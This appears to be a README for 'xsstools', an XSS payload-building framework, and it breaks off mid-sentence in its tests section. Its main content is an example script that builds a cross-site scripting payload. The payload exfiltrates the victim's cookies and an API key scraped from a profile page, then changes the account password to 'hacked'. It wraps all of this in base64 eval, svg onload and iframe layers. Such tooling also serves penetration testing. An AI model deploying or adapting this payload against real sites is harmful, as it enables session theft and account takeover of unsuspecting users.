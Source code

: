 # xsstools

xsstools is an xss development frameworks

```html
<script type="module">
import {Exfiltrators, Payload, Wrapper, utils} from "./xsstools.min.js"

const exfiltrator = Exfiltrators.message()
const payload = Payload.new()
    .addExfiltrator(exfiltrator)
    .eval(() => document.cookie)
    .exfiltrate()
    .fetchDOM("/user/me")
    .querySelector("input[name='apikey']", 'value')
    .exfiltrate()
    .postUrlEncoded("/user/changePassword", {"password": "hacked"})


const wrapper = Wrapper.new()
    .evalB64()
    .svgLoad()
    .iframe()


const exploit = wrapper.wrap(payload)

console.log(exploit)
</script>
```

# Documentation


To generate the documentation simply run `yarn docs`



# Tests

If you want to know which payload is compatible with your targeted browser you can run the test suite in /test.

You can access /test in your browser run tests in your browser, some 


